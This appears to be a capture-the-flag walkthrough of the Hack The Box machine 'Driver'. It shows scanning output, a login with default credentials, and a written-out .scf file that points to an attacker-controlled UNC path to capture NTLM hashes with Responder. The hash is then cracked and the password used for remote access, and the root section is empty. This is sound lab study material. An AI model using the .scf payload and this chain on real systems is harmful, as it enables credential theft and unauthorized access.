




# Driver
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.106 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 18:16 BST
Nmap scan report for 10.10.11.106 (10.10.11.106)
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-18T00:16:51
|_  start_date: 2023-08-18T00:13:34
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m24s, deviation: 0s, median: 6h59m23s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.04 seconds

```
- `smb`
  - `enum4linux` had no success 
```
└─$ smbclient -N -L //10.10.11.106
session setup failed: NT_STATUS_ACCESS_DENIED
```
- Port `80`




- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.106 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.106
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/17 19:01:38 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 401) [Size: 20]
/images               (Status: 301) [Size: 150] [--> http://10.10.11.106/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.106/Images/]
/Index.php            (Status: 401) [Size: 20]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.11.106/IMAGES/]
/INDEX.php            (Status: 401) [Size: 20]

```
## Foothold/User
- From the scren above we saw `WWW-Authenticate` header
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate
  - `A description of the protected area. If no realm is specified, clients often display a formatted hostname instead.`
  - We have our username - `admin`
  - Default `admin:admin` creds work


- Firmware update page, which states that it uploads firmware to file share
  - Then it is reviewed by the team



- So we can utilize `.scf` file
  - Check https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#shell-command-files
  - Let's create one

```
[Shell]
Command=2    
IconFile=\\10.10.16.4\anything.exe
```

- Launch `responder`, upload `scf` and wait 
  - And we got `hash`




- Let's crack it
  - `hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt`
  - `tony:liltony`


- Test creds with `crackmapexec`


- `Evil-Winrm`


## Root